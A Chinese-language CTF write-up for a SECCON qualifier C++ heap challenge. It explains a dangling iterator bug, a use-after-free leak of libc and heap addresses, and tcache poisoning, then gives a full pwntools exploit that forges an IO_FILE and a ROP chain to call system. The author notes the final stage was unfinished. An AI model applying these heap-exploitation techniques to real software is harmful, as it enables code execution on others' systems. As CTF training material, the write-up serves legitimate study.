


这个题最后全场8解，我们就差这个题就全 AK 了，感觉还是挺痛的hhh ~ 但是终归成功晋级 SECCON FINAL!!     
这个题还是有点绕，基本上是边打边踩坑的状态，最后都到了 IO_FILE 这一步发现 cin 不了空格然后临时换了板子，如果时间再多一点的话应该能出的qaq    
特别感谢一起做这个题的队友们，是 dylanyang17，k4ra5u，brieflyx，iromise (排名不分先后) 以及 Redbud 和 blue-lotus 的所有朋友 ~   
以下为题解    
## 漏洞
整体情况是个 C++ 堆题，漏洞比较隐蔽，是雅儒学长通过手写 fuzz 概率触发的， rosayxy 本来预设可能漏洞是深拷贝浅拷贝类似的问题，结果预设错了hhh    
如图，是有一个 dangling pointer，感觉如果纯看代码的话可能也可以看出来    


## leak
首先说一下这个 iterator,它的结构是指向一个红黑树节点的指针，大概结构如下
```cpp
struct map_iterator{
  int color;
  Node* parent;
  Node* left_child;
  Node* right_child;
  string key;
  string value;
}
```
然后 string 的结构如下
```cpp
struct string{
  char* data;
  size_t size;
  size_t capacity;
}
```
在 `it->first == "FL*Support*Center@fl.support.center"` 的条件下，会有一个 `it->second = message;`（以及看上去更深层的利用）这个看上去比较可疑，于是我们看怎么进入这个分支    
但是存在一个问题是，我们只有在 `it->first != "FL*Support*Center@fl.support.center"` 的情况下才能进行 delete，这两个条件看上去是互斥的，那么该怎么利用呢 ~    
```cpp
    if (auto it = black_list.find(name); it != black_list.end()) {
      std::cout << "Already blacklisted" << std::endl;
      std::cout << "Report: ";
      std::cin >> message;
      if (message.size() >= 0x100) {
        std::cout << "Too long" << std::endl;
      } else {
        black_list[name] = message;
      }
    } else {
      black_list[name] = "";
    }
```
在 erase 之后的这段，我们可以输入 message，会带来堆块的申请，如果我们之前 erase 掉 <key,value> pair 的 key 和 `FL*Support*Center@fl.support.center` 长度相同，则会把原先 free 的 key 对应的堆块申请出来，然后接下来就会以这个 message 和 `FL*Support*Center@fl.support.center` 比较，所以就容易想到，如果我们输入的 message 就是 `FL*Support*Center@fl.support.center` 的话就可以进入该分支了     
之后，在 `it->first = "FL*Support*Center@fl.support.center"` 的分支下，有以下内容
```cpp
 std::cout << "Do you want to delete the sent message: " << it->second
                    << "(yes or no)" << std::endl;
```
可以看到会有一个 UAF read，那 leak 的思路就挺明确的了：   
  - 我们期望把一个块塞到 unsorted bin 里面，这样就可以同时 leak 出 libc 和 heap 地址了    
  - 所以我们希望申请 it->second 的大小大于 fastbin 的大小（查了一下 fastbin 最大为 80 字节，比想象中的小挺多的hhh 本来以为至少能到 0xc0 大小），这样的话填满 tcache bin 之后就会进入 unsorted bin 了
  - 为了同时进行 heap 和 libc leak，我们在 unsorted bin 里面塞俩块
  - 然后使得该处输出的 chunk 为一个 unsorted chunk 然后就可以了     

所以总体来说，我感觉这一段很帅！打出来也老开心了     


花絮放送，快五点才 leak 出来下班，7点20起的，发消息的时候已经到 FIT 楼了....评价为社畜本畜   
## double free or UAF?
接下来踩的比较大的坑是在原语选择上，具体来说，`it->second = message;` 这个位置根据 message 和 it->second 的关系，可能是 UAF 或者 double free，一开始我只看出来了 double free，利用的话难度很大，很考验堆布局能力，但是用 UAF 做的话直接打 tcache poisoning 就很简单     
那么简析一下这两种情况的条件吧，这段本质上是 `((void (__fastcall *)(__int64, char *))std::string::operator=)(v20 + 0x20, v28)` 这个底层接口，下图为内层函数的逆向结果   
```cpp
unsigned __int64 __fastcall std::string::_M_assign(__int64 src_1, __int64 dst)
{
  _BYTE *src_ptr; // r13
  __int64 src_cap_ptr; // r14
  size_t dst_len; // r12
  unsigned __int64 src_cap; // rdx
  __int64 v8; // rax
  _BYTE *v9; // rdi
  __int64 v10; // rax
  _BYTE *dst_charptr; // rsi
  __int64 dst_len_1; // [rsp+0h] [rbp-38h] BYREF
  unsigned __int64 v13; // [rsp+8h] [rbp-30h]

  v13 = __readfsqword(0x28u);
  if ( src_1 != dst )
  {
    src_ptr = *(_BYTE **)src_1;
    src_cap_ptr = src_1 + 16;                   // src capacity
    dst_len = *(_QWORD *)(dst + 8);
    if ( src_1 + 16 == *(_QWORD *)src_1 )
      src_cap = 15LL;
    else
      src_cap = *(_QWORD *)(src_1 + 16);
    if ( src_cap < dst_len )
    {
      dst_len_1 = *(_QWORD *)(dst + 8);
      v8 = std::string::_M_create(src_1, &dst_len_1);
      v9 = *(_BYTE **)src_1;
      src_ptr = (_BYTE *)v8;
      if ( src_cap_ptr != *(_QWORD *)src_1 )
        operator delete(v9);
      v10 = dst_len_1;
      *(_QWORD *)src_1 = src_ptr;
      *(_QWORD *)(src_1 + 16) = v10;
    }
    else if ( !dst_len )
    {
LABEL_6:
      *(_QWORD *)(src_1 + 8) = dst_len;
      src_ptr[dst_len] = 0;
      return v13 - __readfsqword(0x28u);
    }
    dst_charptr = *(_BYTE **)dst;
    if ( dst_len == 1 )
      *src_ptr = *dst_charptr;
    else
      memcpy(src_ptr, dst_charptr, dst_len);
    src_ptr = *(_BYTE **)src_1;
    goto LABEL_6;
  }
  return v13 - __readfsqword(0x28u);
}
```
这里的 dst 指的是新的 string，src 指的是原先 iterator 中 value 存的 string hhh    
可以看到如果新的 string len 大于 old string capacity ，就会 free 掉原先的 string 然后把新的 string 赋值过去，因为原先我们的 string 已经被 delete 过一次了，所以这里会有 double free
否则会直接把 new string 中的内容拷贝到 old string，然后在 new string 末尾补0，改 length 字段然后返回，因为 old string 已经被 delete 过一次了，这里再进行了写入，所以会有 UAF （之前一直感觉这样做不太合理，但是发现能省一次 new string 和一次 free 的开销所以也是合理的？）    
在 double free 的情况下，需要打 house of botcake，所以在两次 free 之间需要一次 free 相邻堆块 一次 malloc，这个很难构造    
在 UAF 的情况下就直接打 tcache poisoning 就行，简单了不只一点.....    
但是 UAF 的话，堆块大小不能是 0x100 不然会因为 string 双倍扩容的原理被临时变量申请出来，不能保证我们可以写入它，所以我们改成了 0xf0 大小的块     
UAF 到 tcache poisoning 的过程大 credit to k4ra5u 老师（特别是改 UAF 堆块大小这一步）~      
如果这一步一开始就打 UAF 的话，可能最后就做出来了（流泪），应该一开始就粗略看一下那个 string 的 operator= 的......    
## house of apple2 + stack pivoting   
它 cin 不了空格，所以之前备的板子不能用，临时改了板子但是最后没调出来，sad    
这个就是常规操作了，纯考调试能力，就不多说了hhh ~     
## exp
```py
from pwn import*
context(log_level="debug", arch="amd64", os="linux")
# context.terminal = ['tmux', 'splitw', '-h']
libc = ELF("./libc.so.6")
p=process("./fl")

# p = remote("127.0.0.1",49867)
def add(name):
    p.recvuntil("5. Exit\n")
    p.sendline("1")
    p.recvuntil("Name: ")
    p.sendline(name)

def message(name,message,is_remove=False):
    p.recvuntil("5. Exit\n")
    p.sendline("2")
    p.recvuntil("Name: ")
    p.sendline(name)
    
    p.recvuntil("Message: ")
    p.sendline(message)
    if is_remove:
        p.recvuntil("(yes or no)\n")
        p.recvuntil("> ")
        p.sendline("yes")
        
def list():
    p.recvuntil("5. Exit\n")
    p.sendline("3")
    
def remove(name,message):
    p.recvuntil("5. Exit\n")
    p.sendline("4")
    p.recvuntil("Name: ")
    p.sendline(name)
    if message:
        p.recvuntil("Report: ")
        p.sendline(message)
        
# leak libc
# 扔 smallbin
for i in range(9):
    add(str(i).ljust(0xe1,"a"))
add("DL*Support*Center@fl.support.center")
# message("DL*Support*Center@fl.support.center","t"*0x10)
gdb.attach(p)
pause()
for i in range(9):
    remove(str(i).ljust(0xe1,"a"),None)
for i in range(9):
    add(str(i).ljust(0xe1,"a"))

for i in range(8):
    remove(str(i).ljust(0xe1,"a"),b"t"*0x110)
    

remove("DL*Support*Center@fl.support.center",None)
add("DL*Support*Center@fl.support.center")
# gdb.attach(p)
# pause()
message("DL*Support*Center@fl.support.center","t"*0xe1)
remove(str(8).ljust(0xe1,"a"),b"t"*0x110)
p.recvuntil("5. Exit\n")
p.sendline("4")
p.recvuntil("Name: ")
p.sendline("DL*Support*Center@fl.support.center")
p.recvuntil("Report: ")
p.sendline("FL*Support*Center@fl.support.center")
p.recvuntil("delete the sent message: ")
heap_and_libc_leak = p.recv(14)
heap_leak = u64(heap_and_libc_leak[:6].ljust(8,b"\x00"))
libc_leak = u64(heap_and_libc_leak[8:14].ljust(8,b"\x00"))
print(hex(heap_leak))
print(hex(libc_leak))
gdb.attach(p)
pause()
# 0x7ff352201000 0x55cd796de000 0x55cd796f2d10 0x7ff35241bce0
# 0x5572ee099000 0x5572ee0add00
libc_base = libc_leak + 0x201000-0x41bce0
heap_base = heap_leak - 0xadd00 + 0x99000
print(hex(libc_base))
print(hex(heap_base))

io_list_all= libc_base + libc.sym["_IO_list_all"]
p.recvuntil("(yes or no)")
p.sendline("no")
io_file_addr = heap_base + 0xdb960 - 0xc6000 # todo
srop_addr= heap_base + 0xdba70-0xc6000
magic= 0x167418+libc_base # 0x0000000000167420 嘶 这个末位可能不太行
pop_rdi_ret = 0x2a3e5+libc_base
wide_data_addr = heap_base
setcontext = libc_base + 0x053A1D
ret = libc_base + 0x53B02
fake_stack_addr = srop_addr+0xb0+0x30

io_file = p64(~(2 | 0x8 | 0x800)+0x100000000)+p64(srop_addr)
io_file = io_file.ljust(0x20, b"\x00")
io_file += p64(1)+p64(2)
io_file = io_file.ljust(0x68, b"\x00")+p64(magic)
io_file = io_file.ljust(0x88, b"\x00")+p64(io_file_addr + 0xe8)
io_file = io_file.ljust(0xa0, b"\x00")+p64(io_file_addr)
io_file = io_file.ljust(0xd8, b"\x00")+p64(libc_base + 0x002170C0)+p64(io_file_addr)+p64(0)+p64(srop_addr)

srop=p64(0)*4+p64(setcontext)
srop=srop.ljust(0x78,b"\x00")+p64(fake_stack_addr)
srop=srop.ljust(0xa0,b"\x00")+p64(fake_stack_addr)+p64(ret)
rop = p64(pop_rdi_ret)+p64(libc_base + 0x1D8678)+p64(libc_base+libc.sym["system"])
srop = srop+p64(0)*6+rop

for i in range(3):
    add(str(20 +i).ljust(0x21,"a"))
for i in range(3):
    remove(str(20 +i).ljust(0x21,"a"),None)
for i in range(3):
    add(str(20 +i).ljust(0x21,"a"))
for i in range(3):
    remove(str(20 +i).ljust(0x21,"a"),b'a'*0x100)


# 把堆块都给占上
for i in range(8):
    add(str(i).ljust(0xe1,"a"))
add(str(8).ljust(0xa0,"t"))
add(str(9).ljust(0xe1,"a")) # 这没被删

add((str(12).ljust(0x60,"a")))
remove((str(12).ljust(0x60,"a")),None)
add(str(12).ljust(0x60,"a"))
remove(str(12).ljust(0x60,"a"),b"a"*0x110)

add(str(11).ljust(0x30,"a"))
add(str(12).ljust(0xe1,"a")) # 这没被删
# 随机 free 7个 chunk 再把 str(10) 给 free 了

for i in range(7):
    remove(str(i).ljust(0xe1,"a"),b"a"*0x110)
# remove(str(10).ljust(0xf1,"a"),b"a"*0x110)

add(b"BL*Support*Center@fl.support.center")
remove(b"BL*Support*Center@fl.support.center",None)
add(b"BL*Support*Center@fl.support.center")

message(b"BL*Support*Center@fl.support.center","t"*0xe1)


p.recvuntil("5. Exit\n")
p.sendline("4")
p.recvuntil("Name: ")
p.sendline(b"BL*Support*Center@fl.support.center")
p.recvuntil("Report: ")
p.sendline("FL*Support*Center@fl.support.center")
p.recvuntil("(yes or no)")
p.sendline("yes")
# gdb.attach(p)
# pause()
# 0x558fe7b38400 0x558fe7b24000
# get malloc 0x100 chunk
p.recvuntil("Message: \n")
p.sendline(p64(io_list_all^((heap_base + 0x38400-0x24000)>>12)).ljust(0xe1,b"a"))
# todo assemble fake chunk here
add(str(14).ljust(0xe1,"a"))
payload =p64(io_file_addr)+p64(0)*3+ p64(0xfbada086)
add(payload.ljust(0xe1,b"\x00"))

# 0x56026cad9480 —▸ 0x56026cadaee0 0x56026cadb950 0x56026cac6000
add(io_file)
add(srop.ljust(0xf1,b"\x00"))
# trigger 
# gdb.attach(p)
# pause()
p.recvuntil("5. Exit\n")
p.sendline("5")

p.interactive()
# 0x555555560000
```
其中 heap_base 可能是本地的，和远程不一致，这个有点玄学，把 lib 和 linker 全用 patchelf 换成了远程的版本 但是和 docker 内的结果也不太一致，有时间的话在 Docker 里面起 gdb 调一下吧      
## 总结
感觉总体打下来还是不难（至少比其他两个栈题 trick 少一些），感觉自己堆题的思维确实提升了，但是也感觉还是那种偏 dirty 的题目平时练少了，像是这次中的 misty mountain 和 vuln_img 思路上都很艰难，以及一开始找洞能力也是不足（感谢 dylanyang 学长 ~ ），还是要多加练习qaq ~     
